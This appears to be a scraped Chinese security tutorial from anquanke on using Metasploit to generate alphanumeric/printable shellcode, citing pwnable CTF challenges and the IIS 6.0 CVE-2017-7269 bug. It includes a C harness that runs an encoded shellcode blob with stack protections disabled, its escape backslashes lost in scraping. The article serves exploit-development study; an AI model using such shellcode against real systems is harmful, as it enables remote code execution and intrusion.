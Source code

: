 > 原文链接: https://www.anquanke.com//post/id/85871 


# 【技术分享】生成自己的Alphanumeric/Printable shellcode


                                阅读量   
                                **242951**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



****

![](https://p0.ssl.qhimg.com/t0119a4cca6bdd5cddf.jpg)

作者：[WeaponX](http://bobao.360.cn/member/contribute?uid=2803578480)

预估稿费：400RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

**<br>**

**背景**

最近在看一些题目(pwnable.kr-ascii, pwnable.kr-ascii_easy, pwnable.tw-Death_Note)和漏洞(CVE-2017-7269-IIS6.0远程代码执行漏洞)的时候用到Alphanumeric/Printable shellcode。本文不阐述如何书写Alphanumeric/Printable shellcode，而是教大家如何使用Metasploit生成自己的shellcode和在特定条件下寄存器的设置。

所谓Alphanumeric是字符在[A-Za-z0-9]区间的，而Printable是字符的ascii码在0x1f和0x7f区间(不包含)的。

shellcode测试可以用以下代码测试。

```
/*
 * $ gcc -m32 -fno-stack-protector -z execstack shellcode.c -o shellcode
 * $ ./shellcode
 */
#include &lt;stdio.h&gt;
#include &lt;string.h&gt;
char shellcode[] = `{`
  "x89xe0xdbxd6xd9x70xf4x5ax4ax4ax4ax4ax4ax4ax4a"
  "x4ax4ax4ax4ax43x43x43x43x43x43x37x52x59x6ax41"
  "x58x50x30x41x30x41x6bx41x41x51x32x41x42x32x42"
  "x42x30x42x42x41x42x58x50x38x41x42x75x4ax49x50"
  "x6ax66x6bx53x68x4fx69x62x72x73x56x42x48x46x4d"
  "x53x53x4bx39x49x77x51x78x34x6fx44x33x52x48x45"
  "x50x72x48x74x6fx50x62x33x59x72x4ex6cx49x38x63"
  "x70x52x38x68x55x53x67x70x35x50x65x50x74x33x45"
  "x38x35x50x50x57x72x73x6fx79x58x61x5ax6dx6fx70"
  "x41x41"
`}`;
int main()
`{`
    printf("Shellcode Length:  %dn",(int)strlen(shellcode));
    printf("Shellcode is [%s]n", shellcode);
    int (*ret)() = (int(*)())shellcode;
    ret();
    return 0;
`}`
```